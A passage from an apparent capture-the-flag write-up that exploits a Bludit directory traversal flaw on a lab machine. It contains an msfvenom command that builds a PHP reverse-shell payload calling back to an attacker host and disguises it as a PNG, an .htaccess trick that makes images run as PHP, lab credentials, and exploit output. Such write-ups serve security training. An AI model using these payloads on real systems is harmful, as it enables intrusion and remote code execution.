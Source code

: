 ![password found](./password.png)

We found a valid set of credentials for Bludit!

## Bludit Directory Traversal Exploit

With a set of working credentials, now it's time to return our attention to the other [exploit](https://www.exploit-db.com/exploits/48701) we found.

This exploit takes advantage of a directory traversal vulnerability in the uuid parameter to upload a malicious image payload. Coupled with a .htaccess file that helps to bypass the file extension check, we could achieve remote code execution.

Accordingly, we need to upload two files: an image payload and a htaccess file. The exploit comments contain clear instructions for generating these two files.

To generate the image payload:

```
$ msfvenom -p php/reverse_php LHOST=10.X.X.X LPORT=53 -f raw -b '"' > evil.png
$ echo -e "<?php $(cat evil.png)" > evil.png
```

To generate the .htaccess file:

```
$ echo "RewriteEngine off" > .htaccess                                                                               
$ echo "AddType application/x-httpd-php .png" >> .htaccess
```

After generating the two files, we need to edit the exploit to include the correct URL and credentials.

```
url = 'http://10.10.10.191'  # CHANGE ME                                                                             
username = 'fergus'  # CHANGE ME        
password = 'RolandDeschain'  # CHANGE ME
```

Now let's fire off the exploit.

```
$ python3 bluditexploit.py 
cookie: dh1nhhrkb929pmf9dehl4ttf46
csrf_token: c04827497f6b9f83f2ffe5b41269c5bdd5799fd5
Uploading payload: evil.png
Uploading payload: .htaccess
```

